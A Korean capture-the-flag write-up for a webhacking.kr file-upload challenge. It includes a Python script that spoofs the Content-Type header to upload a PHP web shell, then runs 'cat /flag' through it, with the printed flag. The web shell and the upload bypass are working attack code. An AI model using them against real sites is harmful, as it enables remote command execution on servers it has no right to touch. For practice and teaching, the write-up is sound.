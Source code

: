 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-11-57-42.png)


# **Write-Up**

php확장자를 가진 파일을 업로드하였더니 wrong type이라고 한다.

![](images/2022-01-03-11-57-53.png)

~~몇가지 text나 아무 확장자를 올려봤을 때, wrong type이 나왔고, png나 jpg만 올라갔다. 그렇다면 Content-Type을 바꿔서 올려보자.~~

```python
import requests

CHALLENGE   = 'http://webhacking.kr:10004/index.php'
SESSION_ID  = 'iojfbh0sobkvbtp5i4ftu52ti0'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID, 'Content-Type': 'image/png'}
files       = {'file':('test.php','<?php system($_GET[\'cmd\']); ?>')}
req         = requests.post(CHALLENGE, headers=headers, files=files)

CHALLENGE   = 'http://webhacking.kr:10004/upload/test.php?cmd=cat /flag'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
req         = requests.get(CHALLENGE, headers=headers)
print(req.text)

[Output]
FLAG{V2hhdCBkaWQgeW91IGV4cGVjdD8=}
```

proxy를 이용하여 Content-Type을 image/png로 바꾸면 잘 업로드된다.

FLAG를 인증하여 점수를 획득하자.

![](images/2022-01-03-11-59-08.png)


# **FLAG**

**FLAG{V2hhdCBkaWQgeW91IGV4cGVjdD8=}**